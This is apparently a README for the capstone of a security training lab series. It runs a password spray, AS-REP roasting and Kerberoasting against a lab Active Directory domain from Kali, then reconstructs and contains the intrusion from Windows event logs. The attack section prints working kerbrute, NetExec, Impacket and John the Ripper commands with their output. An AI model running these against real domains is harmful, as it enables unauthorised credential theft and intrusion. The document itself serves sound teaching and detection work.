# Enterprise Attack Simulation & Incident Response

`Windows Server 2022` `Active Directory` `Kali Linux` `Kerberos` `NetExec` `kerbrute` `Impacket` `John the Ripper` `MITRE ATT&CK` `Red Team` `Blue Team` `DFIR`

| | |
|---|---|
| **Focus** | A full intrusion against the `CYBERLAB.local` domain from Kali, followed by an incident-response investigation and containment on the Domain Controller, using the detection built in Lab 07 |
| **Difficulty** | Advanced |
| **Duration** | ~1.5 hours (single session) |
| **Tools** | Nmap, kerbrute, NetExec (`nxc`), Impacket (`GetNPUsers`, `GetUserSPNs`), John the Ripper, Windows Security event log, PowerShell / Active Directory module |

## Architecture

Full diagram and notes: [`architecture/lab-architecture.md`](architecture/lab-architecture.md). No new machines: this lab attacks the existing Lab 07 Domain Controller from the existing Kali box, then performs IR on the DC itself.

## Series Continuity

```
Labs 01-05 -> Build, harden, and attack a Linux host and its web application
Lab 06     -> Switch to defense: would a defender monitoring that host see the attacks?
Lab 07     -> Cross into Windows: build, harden, and instrument an Active Directory domain
Lab 08     -> The finale: run a full intrusion against that domain, then detect, investigate and contain it
```

This is the capstone. Labs 01-07 built, hardened and instrumented the environment; this lab finally runs a realistic adversary against it end-to-end and then works the incident from the defender's chair, closing the red-team / blue-team loop the whole series was building toward.

## Executive Summary

This lab runs three distinct, real Active Directory attacks from Kali against the hardened `CYBERLAB.local` Domain Controller, then investigates and contains the resulting incident from the DC. The attacks were chosen to tell one honest story: **the Lab 07 hardening is necessary but not sufficient, and detection is what carries the rest.** A password spray walked under the account-lockout threshold (exactly as predicted in Lab 07, Finding 5) and compromised a service account with a weak-but-policy-compliant password, proving that a strong *policy* does not save you from a weak *choice* within it. AS-REP roasting and Kerberoasting then both extracted crackable Kerberos material and recovered plaintext passwords entirely offline, where no lockout, no alert, and no network control can reach, so the only real defenses are password strength (or gMSA) and detecting the initial request. Every attack left a specific, findable trace in the Security event log, and the incident-response phase reconstructed the whole intrusion from those traces alone: the attacker's IP (`192.168.56.10`), the compromised accounts, the techniques, and a minute-by-minute timeline, then contained it by disabling and resetting the affected accounts and verifying from Kali that access was revoked. The throughline from Lab 06 holds once more: prevention and detection cover different ground, and a control being "on" says nothing about whether it covers the attack actually being used.

## Scenario

An external attacker with network access to `CYBERLAB.local` (and no credentials) sets out to compromise the domain. An administrator, in a hurry, has given a backup service account a predictable password, the single most common real-world AD weakness. The attacker finds it, gains a foothold, and expands. The security team, alerted by a spike in failed logons, must reconstruct what happened from the logs, scope the damage, and shut the attacker out, then recommend how to stop it recurring.

## Environment

- **Windows Server 2022**: `DC01`, `192.168.56.30`: `CYBERLAB.local` Domain Controller (victim **and** IR console), with the Lab 07 hardening and audit policy intact.
- **Kali Linux**: `192.168.56.10`, the attacker.
- **The planted weakness**: a service account `svc-backup` with password `<svc-backup-test-password>`, 14 characters and policy-compliant, yet trivially guessable. Two further accounts were later made deliberately vulnerable to demonstrate the Kerberos attacks (`asmith` with pre-auth disabled; `svc-sql` with an SPN and a weak password).

## Methodology

```
RED TEAM (from Kali)
Phase 1: Reconnaissance (nmap)
Phase 2: Domain user enumeration (kerbrute, unauthenticated)
Phase 3: Credential access - password spray -> foothold (NetExec)
Phase 4: Post-exploitation discovery (NetExec, authenticated)
Extra A: AS-REP Roasting (Impacket GetNPUsers + John)
Extra B: Kerberoasting (Impacket GetUserSPNs + John)
        |
BLUE TEAM (on the DC)
Phase 5: Incident Response - reconstruct the timeline from the Security log
Phase 6: Containment & remediation
```

---

## The Attack

### Phase 1: Reconnaissance

An Nmap version scan (`nmap -Pn -sV 192.168.56.30`) fingerprinted the host instantly as a Domain Controller and leaked the domain name and hostname.

```
88/tcp   kerberos-sec  Microsoft Windows Kerberos
389/tcp  ldap          Microsoft Windows Active Directory LDAP (Domain: CYBERLAB.local)
3268/tcp ldap          Global Catalog (Domain: CYBERLAB.local)
Service Info: Host: DC01; OS: Windows
```



**MITRE:** T1046 - Network Service Discovery; T1590 - Gather Victim Network Information.

### Phase 2: Domain User Enumeration (unauthenticated)

`kerbrute userenum` validated which guessed usernames were real domain accounts **with no credentials at all**, by abusing how Kerberos pre-authentication responds differently to valid and invalid users.

```
$ kerbrute userenum -d CYBERLAB.local --dc 192.168.56.30 userlist.txt
[+] VALID USERNAME: administrator@CYBERLAB.local
[+] VALID USERNAME: svc-backup@CYBERLAB.local
[+] VALID USERNAME: asmith@CYBERLAB.local
[+] VALID USERNAME: jdoe@CYBERLAB.local
Done! Tested 12 usernames (4 valid)
```



**MITRE:** T1087.002 - Account Discovery: Domain Account.

### Phase 3: Credential Access - Password Spray

A small set of common passwords was sprayed across the enumerated accounts, kept under the 5-attempt lockout threshold (the evasion proven in Lab 07, Finding 5). One account fell.

```
$ nxc smb 192.168.56.30 -u valid_users.txt -p spray.txt --continue-on-success
[+] CYBERLAB.local\svc-backup:<svc-backup-test-password>
```



**Root cause.** The password policy was strong (14 chars, complexity) yet `<svc-backup-test-password>` satisfies it and is still guessable. A strong policy does not prevent a weak choice within it. **MITRE:** T1110.003 - Password Spraying.

### Phase 4: Post-Exploitation

With the `svc-backup` foothold, authenticated enumeration exposed the full user list (leaking account descriptions) and showed READ access to `SYSVOL` / `NETLOGON`, where GPO scripts, and sometimes credentials, live.

```
$ nxc smb 192.168.56.30 -u svc-backup -p '<svc-backup-test-password>' --users   # full domain user list
$ nxc smb 192.168.56.30 -u svc-backup -p '<svc-backup-test-password>' --shares  # SYSVOL/NETLOGON READ
```



**MITRE:** T1087.002 - Account Discovery; T1135 - Network Share Discovery.

### Extra A: AS-REP Roasting

An account with Kerberos pre-authentication disabled (`asmith`, a simulated misconfiguration) can have its AS-REP captured **unauthenticated** and cracked offline.

```
$ impacket-GetNPUsers CYBERLAB.local/ -usersfile valid_users.txt -dc-ip 192.168.56.30 -no-pass -format hashcat
$krb5asrep$23$asmith@CYBERLAB.LOCAL:b6ba37...        # asmith vulnerable
[-] svc-backup ... KDC_ERR_CLIENT_REVOKED            # containment already working

$ john --wordlist=cracklist.txt asrep_hashes.txt
<cyberlab-test-password>  ($krb5asrep$23$asmith@CYBERLAB.LOCAL)   # cracked offline
```




**Why it matters.** The cracking is offline, at attacker speed, with no lockout and no log. Only the initial request (Event 4768, pre-auth type 0) is visible. **MITRE:** T1558.004 - AS-REP Roasting.

### Extra B: Kerberoasting

Any authenticated domain user (here the `jdoe` foothold) can request a service ticket for any account with an SPN (`svc-sql`); the ticket is encrypted with the service account's password hash and cracked offline.

```
$ impacket-GetUserSPNs CYBERLAB.local/jdoe:'<cyberlab-test-password>' -dc-ip 192.168.56.30 -request
$krb5tgs$23$*svc-sql*CYBERLAB.LOCAL*...

$ john --wordlist=krb_wordlist.txt kerberoast_hashes.txt
<svc-sql-test-password>   (svc-sql)   # cracked offline
```




**Why it matters.** Same offline-cracking danger as AS-REP roasting. The real defense is a 25+ character random password or a gMSA, which makes offline cracking infeasible. **MITRE:** T1558.003 - Kerberoasting.

---

## Incident Response

### Phase 5: Investigation - reconstructing the attack from logs

With only the Security event log, the entire intrusion was reconstructed.

**The spray signature** (Event 4625 grouped by account) shows many accounts hit, not one, the fingerprint of a spray rather than a user mistyping:

```
Count  Name
-----  ----
    9  jdoe
    5  administrator
    5  asmith
    2  svc-backup
```



**The breach** (Event 4624, logon type 3) names the compromised account and, critically, the attacker's IP:

```
Account Name:          svc-backup
Logon Type:            3 (network)
Source Network Address: 192.168.56.10      <-- the attacker
Authentication Package: NTLM
```



**The Kerberos attacks** each left their own signature: Event **4768** with *Pre-Authentication Type: 0* (AS-REP roasting) and Event **4769** with *Ticket Encryption Type: 0x17* / RC4 (Kerberoasting), both from `192.168.56.10`.




### Phase 6: Containment & Remediation

| Action | Command | Result |
|---|---|---|
| Disable compromised account | `Disable-ADAccount svc-backup` | Enabled = False |
| Reset its password | `Set-ADAccountPassword svc-backup -Reset` | old creds dead |
| Verify from attacker side | (Kali) `nxc smb ... -u svc-backup` | **STATUS_ACCOUNT_DISABLED** |
| Fix AS-REP exposure | `Set-ADAccountControl asmith -DoesNotRequirePreAuth $false` + reset | DoesNotRequirePreAuth = False |
| Fix Kerberoast exposure | `Set-ADAccountPassword svc-sql` (25+ char random) | offline crack infeasible |



---

## Incident Timeline

| Time (approx.) | Event | Evidence |
|---|---|---|
| T0 | Reconnaissance (Nmap) against DC01 | No host-based trace (network-layer blind spot) |
| T0+1 | Unauthenticated user enumeration (kerbrute) | 4768 activity |
| T0+2 | Password spray across 4 accounts | 21x Event 4625 across multiple accounts |
| T0+3 | **Foothold: svc-backup compromised** | Event 4624, logon type 3, from 192.168.56.10 |
| T0+4 | Authenticated enumeration (users, shares) | 4624 / share access |
| T0+5 | AS-REP roasting of asmith | Event 4768, pre-auth type 0, from 192.168.56.10 |
| T0+6 | Kerberoasting of svc-sql | Event 4769, enc type 0x17, from 192.168.56.10 |
| T1 | **Containment**: accounts disabled / reset | Enabled=False; attacker gets STATUS_ACCOUNT_DISABLED |

## MITRE ATT&CK Kill Chain

| Tactic | Technique | ID |
|---|---|---|
| Reconnaissance | Network service / information gathering | T1046, T1590 |
| Discovery | Account Discovery: Domain Account | T1087.002 |
| Discovery | Network Share Discovery | T1135 |
| Credential Access | Brute Force: Password Spraying | T1110.003 |
| Credential Access | Steal/Forge Kerberos Tickets: AS-REP Roasting | T1558.004 |
| Credential Access | Steal/Forge Kerberos Tickets: Kerberoasting | T1558.003 |

## Detection Coverage Matrix

| Attack | Telemetry | Signature | Detected? |
|---|---|---|---|
| Nmap recon | None (host-based only) | None | **Miss** (by design; needs network IDS) |
| User enumeration | Security log | 4768 bursts | Partial |
| Password spray | Security log | Many 4625 across accounts | **Yes** |
| Foothold logon | Security log | 4624 type 3 from external IP | **Yes** |
| AS-REP roasting | Security log | 4768, pre-auth type 0 | **Yes** (request only; offline crack invisible) |
| Kerberoasting | Security log | 4769, enc type 0x17 (RC4) | **Yes** (request only; offline crack invisible) |

## Verification Summary

| Check | Status |
|---|---|
| Foothold achieved against a policy-compliant-but-weak password | Confirmed (svc-backup) |
| Spray stayed under lockout threshold | Confirmed (no accounts locked by the spray) |
| Both Kerberos attacks recovered plaintext offline | Confirmed (asmith, svc-sql) |
| Full attack reconstructed from logs alone | Confirmed (IP, accounts, techniques, timeline) |
| Containment verified from the attacker's side | Confirmed (STATUS_ACCOUNT_DISABLED) |

## Lessons Learned

Full write-up in [`lessons-learned.md`](lessons-learned.md). The short version: a strong password *policy* does not stop a weak password *choice*; offline Kerberos attacks live beyond the reach of lockout and network controls, so password strength / gMSA and request-time detection are the only answers; and, once more in the spirit of Lab 06, prevention and detection cover different ground, so "the control is on" is never the same claim as "this attack is covered."

## Remediation Recommendations

- **Service accounts**: 25+ character random passwords, or **gMSA** (managed, auto-rotated), kills Kerberoasting's offline value. Audit for weak service-account passwords.
- **Kerberos**: audit for and remove `DoesNotRequirePreAuth`; disable RC4, forcing AES, so a roastable ticket is far harder to crack.
- **Detection/alerting**: alert on many 4625 across distinct accounts (spray), on 4768 with pre-auth type 0 (AS-REP roasting), and on 4769 with RC4 enc type / high volume (Kerberoasting).
- **Network layer**: an IDS (Suricata/Zeek) to close the reconnaissance blind spot that is host-based detection's structural limit (Lab 06 and Lab 07 both hit it).
- **Defense in depth**: MFA and tiered administration to limit what a single compromised credential can reach.

## Skills Demonstrated

- End-to-end AD intrusion: recon, unauthenticated enumeration, password spray, post-exploitation
- Kerberos attacks: AS-REP roasting and Kerberoasting, with offline hash cracking (John the Ripper)
- Offensive tooling on Kali: Nmap, kerbrute, NetExec, Impacket
- DFIR on Windows: reconstructing an intrusion timeline from the Security event log by Event ID (4625/4624/4768/4769/4740)
- Incident containment and remediation in Active Directory (account disable/reset, pre-auth and SPN hardening)
- Full MITRE ATT&CK kill-chain mapping across reconnaissance, discovery and credential access

## Series Conclusion

Lab 08 closes an eight-lab arc that began with a single hardened Linux SSH server and ends with a full enterprise intrusion worked from both sides. The consistent lesson across all eight: build it, verify every claim with evidence, and be honest, especially about what a control does *not* cover. That is the difference between a lab that looks secure and one that has actually been tested.

---

**Screenshots note:** 13 screenshots are embedded above, covering the key moments of each phase. The full evidence set (19 screenshots, including the planted weakness setup and additional remediation screens) is in [`screenshots/`](screenshots/).

---

[⬅️ Previous: Lab 07 - Windows Security & Active Directory](../Lab-07-Windows-Security-and-Active-Directory/README.md) &nbsp;|&nbsp; [🏠 Home](../README.md)
